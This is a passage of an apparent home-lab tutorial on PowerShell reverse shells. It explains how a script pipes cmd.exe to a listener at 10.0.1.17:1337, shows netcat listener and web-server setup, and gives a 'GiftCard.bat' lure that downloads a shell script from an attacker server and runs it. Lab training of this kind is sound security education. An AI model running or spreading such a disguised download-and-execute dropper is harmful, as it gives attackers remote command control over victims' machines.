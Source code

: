**Here's a breakdown of the reverse shell script:**

1. **Setting up variables:**
    - **`$a`**: IP address to connect to (**`10.0.1.17`**).
    - **`$b`**: Port number to connect to (**`1337`**).
    - **`$c`**: TCP client object.
    - **`$nb`**: Byte array for receiving data from the network stream.
    - **`$ob`**: Byte array for storing output from the local process.
    - **`$eb`**: Byte array for storing error output from the local process.
    - **`$e`**: UTF-8 encoding object.
    - **`$p`**: Process object for **`cmd.exe`**.
2. **Connecting to the remote host:**
    - Establishes a TCP connection to the specified IP address and port.
3. **Setting up input/output streams for `cmd.exe`:**
    - Redirects the standard input, output, and error streams of the **`cmd.exe`** process.
4. **Starting the `cmd.exe` process:**
    - Starts the **`cmd.exe`** process with the configured settings.
5. **Reading and Writing Loop:**
    - Enters into an infinite loop that continually checks for data to read or write.
    - If there is data available from the local process's standard output or error streams, it is sent to the remote host.
    - If there is data available from the remote host, it is written to the standard input of the local process (**`cmd.exe`**).
    - The loop also checks for the termination conditions:
        - If the connection is closed (**`$c.Connected -ne $true`**).
        - If there is no data to read from the local process's standard output or error streams.
        - If the local process (**`cmd.exe`**) exits.

In summary, this script is a simple reverse shell that connects to a specified IP address and port, establishes a command prompt (**`cmd.exe`**), and allows for remote command execution. 

2) Stand up a simple webserver on your Kali Purple VM using the command below.

```powershell
python3 -m http.server
```

3) In a different terminal on your Kali Purple VM, install netcat using the command below.

```powershell
sudo apt install netcat-traditional
```

4) Set up a netcat listener on port 1337 using the command below.

```powershell
nc -lvp 1337 
```

### Windows Victim Setup

Create the following bat file by copying and pasting the code below into a notepad++/ notepad file on your Windows VM and saving the file as “GiftCard.bat”.

```powershell
@ECHO off
powershell -Command "Invoke-WebRequest -URI [http://192.168.1.198:8000/shell.](http://192.168.8.151:8000/shell.bat)txt -OutFile c:\Windows\Temp\shell.bat; c:\Windows\Temp\shell.bat"
```
